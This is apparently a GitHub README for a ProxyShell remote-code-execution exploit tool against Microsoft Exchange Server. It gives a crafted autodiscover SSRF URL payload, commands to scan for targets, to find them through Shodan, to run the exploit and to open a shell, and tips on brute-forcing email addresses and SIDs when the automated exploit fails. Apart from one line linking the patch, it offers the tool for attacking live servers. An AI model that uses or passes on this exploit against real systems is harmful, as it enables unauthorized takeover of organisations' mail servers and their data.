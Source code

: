 # ProxyShell (CVE-2021-34473)
CVE-2021-34473 Microsoft Exchange Server Remote Code Execution Vulnerability.
This faulty URL normalization lets us access an arbitrary backend URL while running as the Exchange Server machine account. Although this bug is not as powerful as the SSRF in ProxyLogon, and we could manipulate only the path part of the URL, it’s still powerful enough for us to conduct further attacks with arbitrary backend access.


* CVE-2021-34523 - Exchange PowerShell Backend Elevation-of-Privilege
* CVE-2021-31207 - Post-auth Arbitrary-File-Write





## Scanner
nuclei scanner for Proxyshell RCE (CVE-2021-34423,CVE-2021-34473,CVE-2021-31207) discovered by orange tsai in Pwn2Own, which affect microsoft exchange server.
```
nuclei -u target.com -t proxyshell.yaml
```

```
https://xxx.xxx.xxx.xxx/autodiscover/autodiscover.json?@foo.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3f@foo.com
```

## shodan target 
```python
sudo python3 shodan-query.py
```


## Usage
```python
sudo python3 ProxyShell.py -u https://<IP>
```



### Features
* No email address needs to be supplied
* Attempts to enumerate emails from Active Directory
* Attempts to enumerate LegacyDNs from Active Directory
* Attempts to discover LegacyDNs from builtin emails
* Attempts to discover SID of Exchange server in load-balanced deployments
* Handles exploitation in load-balanced environments



### Tips:
* recon target to find valid email address
* if you do not find any email, use bruteforce target with your email file.
* in some target automation exploit not work, you should bruteforce SID and replace in SID=500


### manual pentest
```python
sudo python2 /manual/check.py 
sudo python2 /manual/shell.py 
sudo python2 /manual/brute.py 
```



### Mitigations
Apply the security updates found here: [CVE-2021-34473](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34473)


### Reference
* [proxylogon orange](https://blog.orange.tw/2021/08/proxylogon-a-new-attack-surface-on-ms-exchange-part-1.html)
* [proxylogon orange 2](https://blog.orange.tw/2021/08/proxyoracle-a-new-attack-surface-on-ms-exchange-part-2.html)
* [python2](https://www.how2shout.com/linux/how-to-install-python-2-7-on-ubuntu-20-04-lts/)

